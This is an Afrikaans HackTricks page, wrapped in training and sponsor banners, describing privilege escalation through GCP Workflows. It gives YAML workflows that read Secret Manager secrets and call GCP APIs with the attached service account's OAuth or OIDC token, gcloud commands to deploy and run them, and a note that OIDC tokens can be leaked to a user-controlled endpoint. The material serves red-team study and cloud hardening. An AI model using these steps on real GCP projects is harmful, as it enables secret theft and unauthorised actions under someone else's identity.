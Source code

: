 # GCP - Workflows Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Basiese Inligting:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Soos ek weet, is dit nie moontlik om 'n shell te kry met toegang tot die metadata eindpunt wat die SA akrediteer van die SA wat aan 'n Workflow aangeheg is nie. Dit is egter moontlik om die toestemmings van die SA te misbruik deur die aksies wat binne die Workflow uitgevoer moet word, by te voeg.

Dit is moontlik om die dokumentasie van die connectors te vind. Byvoorbeeld, dit is die [**bladsy van die Secretmanager connector**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** In die sybalk is dit moontlik om verskeie ander connectors te vind.

En hier kan jy 'n voorbeeld van 'n connector vind wat 'n geheim druk:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
Opdateer vanaf die CLI:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
As jy 'n fout soos `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist` kry, **wag net 'n minuut en probeer weer**.

As jy nie webtoegang het nie, is dit moontlik om 'n Workflow te aktiveer en die uitvoering te sien met: 

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Jy kan ook die uitvoer van vorige uitvoerings nagaan om sensitiewe inligting te soek
{% endhint %}

Let daarop dat selfs al kry jy 'n fout soos `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` omdat jy nie daardie toestemming het nie, is die werksvloei gegenereer.

### Lek OIDC-token (en OAuth?)

Volgens [**die dokumentasie**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) is dit moontlik om werksvloei-stappe te gebruik wat 'n HTTP-versoek sal stuur met die OAuth of OIDC-token. Maar, net soos in die geval van [Cloud Scheduler](gcp-cloudscheduler-privesc.md), moet die HTTP-versoek met die Oauth-token na die gasheer `.googleapis.com` wees.

{% hint style="danger" %}
Daarom is dit **moontlik om die OIDC-token te lek deur 'n HTTP-eindpunt aan te dui** wat deur die gebruiker beheer word, maar om die **OAuth**-token te lek, sal jy **'n omseiling** vir daardie beskerming benodig. Tog is jy steeds in staat om **enige GCP-api te kontak om aksies namens die SA uit te voer** deur middel van ofwel verbindings of HTTP-versoeke met die OAuth-token.
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Met hierdie toestemming in plaas van `workflows.workflows.create` is dit moontlik om 'n reeds bestaande workflow op te dateer en dieselfde aanvalle uit te voer.

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
